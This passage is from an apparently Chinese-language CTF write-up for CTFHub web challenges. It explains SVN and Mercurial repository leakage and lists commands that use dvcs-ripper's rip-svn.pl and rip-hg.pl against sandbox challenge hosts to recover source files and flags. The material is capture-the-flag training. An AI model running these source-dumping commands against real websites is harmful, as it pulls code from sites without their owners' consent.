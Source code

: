 直接githack到本地可发现flag


### SVN泄露

**概述**
SVN是subversion的缩写，是一个开放源代码的版本控制系统，通过采用分支管理系统的高效管理，简而言之就是用于多个人共同开发同一个项目，实现共享资源，实现最终集中式的管理。

在服务器上布署代码时。如果是使用 svn checkout 功能来更新代码，而没有配置好目录访问权限，则会存在此漏洞。黑客利用此漏洞，可以下载整套网站的源代码。
在使用SVN管理本地代码过程中，会自动生成一个隐藏文件夹，其中包含重要的源代码信息。但一些网站管理员在发布代码时，不愿意使用‘导出’功能，而是直接复制代码文件夹到WEB服务器上，这就使隐藏文件夹被暴露于外网环境，这使得渗透工程师可以借助其中包含版本信息追踪的网站文件，逐步摸清站点结构。


**解题思路**

```
git clone https://github.com/kost/dvcs-ripper
cd dvcs-ripper
./rip-svn.pl -u http://challenge-244d26c84ccbf3fa.sandbox.ctfhub.com:10080/.svn/
cd .svn/
cd pristine
cd 9c
cat 9c5b6603235ce517b8a8358aeb444f3184155ae4.svn-base
```

### HG泄露

```bash
./rip-hg.pl -v -u http://challenge-edd68a97866abcb1.sandbox.ctfhub.com:10080/.hg/
cd .hg
```

访问``http://challenge-edd68a97866abcb1.sandbox.ctfhub.com:10080/flag_1599919925.txt``

### 密码口令
### 弱口令

[CTFHUB writeup](https://writeup.ctfhub.com/Skill/Web/%E5%AF%86%E7%A0%81%E5%8F%A3%E4%BB%A4/f6QQk4oixo5X2ZdsUgC7Wo.html)

### 默认口令
